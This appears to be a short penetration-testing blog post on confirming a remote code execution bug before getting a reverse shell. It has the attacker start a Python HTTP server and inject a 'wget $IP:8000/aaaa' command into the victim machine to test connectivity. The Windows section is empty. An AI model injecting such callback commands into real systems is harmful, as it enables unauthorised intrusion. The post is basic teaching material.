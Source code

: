 ```yaml
---
layout: post
title:  "Get reverse shell with RCE"
tags: ['reverse-shell', 'pentest-basics', 'rce']
---
```


## Introduction
In this post we are going to cover ways to test our potential RCE.
This is a good practice before getting the shell, if we do this test, we will test that the RCE that we found is correct and functional


### Python http server
The concept of this test is very simple, we are going to publish a site. We will inject a command wich will contain a GET request to an object on our http server.
If we see a message that says some client is sending us a GET request in our machine, we will know we have connectivity and we can inject commands.

>Note that the object in our web doesn't have to exist, the client (victim) will request some random object, and a message in our server will pop, telling us that someone (victim) is trying to get a resource that doens't exist. But we dont care about that, the point of this is test command injection and connectivity, not share objects.

We run this command to start the server in the attacker's machine
```bash
python3 -m http.server
```

The command what we have to inject in the victim's machine computer:
### Linux
```bash
wget $IP:8000/aaaa
```
### Windows
```powershell

```

If we get any response at the server machine mean's that our RCE work's just fine.






